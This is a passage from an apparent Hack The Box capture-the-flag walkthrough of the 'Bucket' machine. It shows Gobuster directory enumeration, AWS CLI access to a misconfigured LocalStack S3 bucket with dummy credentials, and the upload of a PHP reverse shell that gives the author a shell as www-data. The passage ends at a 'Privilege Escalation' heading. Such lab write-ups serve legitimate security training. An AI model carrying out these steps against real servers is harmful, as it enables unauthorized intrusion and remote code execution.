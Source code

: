 Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://s3.bucket.htb dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
```

It finds the directory _/health_ which shows the state of the services in JSON data:
```
{"services": {"s3": "running", "dynamodb": "running"}}
```

To interact with this service, we need the [AWS Command Line](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html):
```
apt install awscli
```

Enumerating the S3 bucket:
```
aws --endpoint-url http://s3.bucket.htb s3 ls

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Configuring AWS:
```
aws configure

AWS Access Key ID [None]: DoesNotMatter
AWS Secret Access Key [None]: DoesNotMatter
Default region name [None]: us-east-1
Default output format [None]:
```

Now it works and it is possible to access the directories of the S3 bucket:
```
aws --endpoint-url http://s3.bucket.htb s3 ls

2022-01-02 12:06:03 adserver
```

> NOTE: The reason why this works, is because this box uses [LocalStack](https://github.com/localstack/localstack) which is a local AWS cloud stack and simulates that service. It is not fully configured, so it allows any _Access Key ID_ and _Secret Key_.

Trying to upload the _php-reverse-shell.php_ from the **Laudanum scripts** to the S3 bucket:
```
aws --endpoint-url http://s3.bucket.htb s3 cp revshell.php s3://adserver/

upload: ./revshell.php to s3://adserver/revshell.php
```

The file gets successfully uploaded on _bucket.htb/revshell.php_ and after browsing there, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation
